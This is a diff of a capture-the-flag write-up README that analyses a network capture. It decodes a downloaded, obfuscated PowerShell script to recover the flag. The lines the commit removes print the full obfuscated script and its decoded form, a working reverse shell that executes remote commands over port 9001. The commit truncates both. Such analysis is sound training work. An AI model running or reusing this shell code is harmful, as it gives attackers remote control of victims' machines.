

Before and after one commit to deweythedeci/ctf-writeups, a Markdown page: world-wide-ctf-2025/nishang/README.md, 2 parts joined by grey strips. Shown at 91% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
removed malicious code to prevent windows security from whining

````diff
--- a/world-wide-ctf-2025/nishang/README.md
+++ b/world-wide-ctf-2025/nishang/README.md
@@ -5,7 +5,7 @@
 > Category: Beginner\
 > Analyze the provided network capture to uncover what was downloaded to the victim’s machine.
 
-In this challenge, we are given access to a pcap file and it is hinted that something was downloaded to a "victim's" machine. As a heads up, in this challenge there is an inclusion of a Powershell reverse shell which does get picked up by Windows Security.
+In this challenge, we are given access to a pcap file and it is hinted that something was downloaded to a "victim's" machine. As a heads up, in this challenge there is an inclusion of a Powershell reverse shell which does get picked up by Windows Security. To keep Windows from complaining I've censored out significant portions of the snippet.
 
 ## Solution
 
@@ -31,15 +31,17 @@ KAAoACgAIgB7ADQANwB9AHsAOQAwAH0AewAxADYAfQB7ADkANAB9AHsAMwAwAH0AewA4ADQAfQB7ADUA
 We see that the GET request is replyed with a payload of a bunch of random looking text. It's not hard to figure out that this is base64 encoding, which is very common in HTTP payloads, from the padding at the end and the characters used. We also get a bit of a hint from the GET request file path which is "udujreghjs.ps1". The ".ps1" file extension indicates that this is most likely a Powershell script. From here, we can decode it using a tool like Cyberchef. After doing so we get the output below. Also, I should point out the text is encoded using 16 bit characters, so you may have to change the settings in whatever tool you use to make it output correctly, or simply remove those erroneous NULL bytes.
 
 ```
-((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')
-',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
+((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}
+...
+'0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
 ```
 
 Looking at this, we can identify that this is Powershell code, and that it is heavily obfuscated. If you try to run this command, you will get a bunch of errors most likely and Windows will swoop and complain about an attempted reverse shell. This isn't too suprising given the mention of a "victim" earlier. Still, we can sort of parse this command by looking at the parens that group it and see that the command is split into two parts:
 
 ```
-((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')
-',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)
+((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}
+...
+nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)
 ```
 
 Which gets piped with a '|&' into
@@ -51,7 +53,9 @@ Which gets piped with a '|&' into
 If we run just that first command, we get the flag in its output. The second piece is just a round about way of getting the string "iex" which is used to actually run the reverse shell.
 
 ```
-$client = New-Object System.Net.Sockets.TCPClient('wwf{s0m3_p0w3r5h3ll_0bfusc4710n}',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
+$client = New-Object System.Net.Sockets.TCPClient('wwf{s0m3_p0w3r5h3ll_0bfusc4710n}',9001);
+...
+$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
 
 Flag: `wwf{s0m3_p0w3r5h3ll_0bfusc4710n}`
````
